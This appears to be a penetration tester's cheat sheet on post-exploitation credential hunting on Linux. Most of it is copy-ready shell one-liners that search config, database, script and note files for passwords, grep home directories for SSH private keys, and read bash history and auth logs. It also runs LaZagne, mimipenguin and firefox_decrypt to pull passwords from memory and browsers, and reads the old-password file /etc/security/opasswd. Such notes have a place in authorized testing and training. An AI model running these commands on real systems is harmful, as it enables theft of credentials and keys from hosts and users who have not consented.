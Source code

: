 -- -
### Config Files
See if there are any config files on the system and see if they hold any credentials.
```bash
# search for config files and output path to found config files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Search for config files then search its contents for term "user", "password", and "pass"
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
### DB files
Search for database files that may hold credential info on it.
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
### Notes
Harder to define since notes files can be named anything with any number of extensions or no file extension at all. In this example, we will search for txt files and files with no extension.
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
### Scripts
As an automation engineer you should know that automated scripts usually require a set of credentials to run automatically and that engineers love to just put that into files
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```
### Cronjobs
Same areas to look as priv esc using cronjobs, but here the goal is to see if the automated jobs have credentials associated with it.
```bash
# will show any custom files and what not
cat /etc/crontab

# Scripts and files used by cron will be located at the following llocation for debian-based systems
ls -la /etc/cron.*/

# then look through any interesting files to see if anyone left credentials in the files. 
```
### SSH Keys
```bash
# private keys
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

# public keys
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
### Bash History
```bash
tail -n5 /home/*/.bash*
```
### Logs
The following are log file locations and a short description of why they exist:

|**Log File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|
Searching log file contents:
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
### Memory
Using this tool require root privileges so it's purely a process to try after you have rooted the server. 
```bash
#LaZagne
sudo python2.7 laZasgne.py all

# mimipenguin
sudo python3 mimipenguin.py
sudo bash mimipenguin.sh
```
### Browsers
```bash
# LaZagne
python3 laZagne.py browsers

# manual
ls -l .mozilla/firefox/ | grep default

# then lets say one of the directorys spit out was: 1bplpd86.default-release
# cat out the logins.json file from that directory
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

# decrypt password
# you will give it the file locations you want to try. Will auto-find the directories.
python3.9 firefox_decrypt.py
```
### Old User Passwords
The PAM library (how most auth on linux works) can prevent users from reusing old passwords, which means it saves old passwords somewhere. This file can only be read with root privs so keep that in mind.
```bash
sudo cat /etc/security/opasswd
```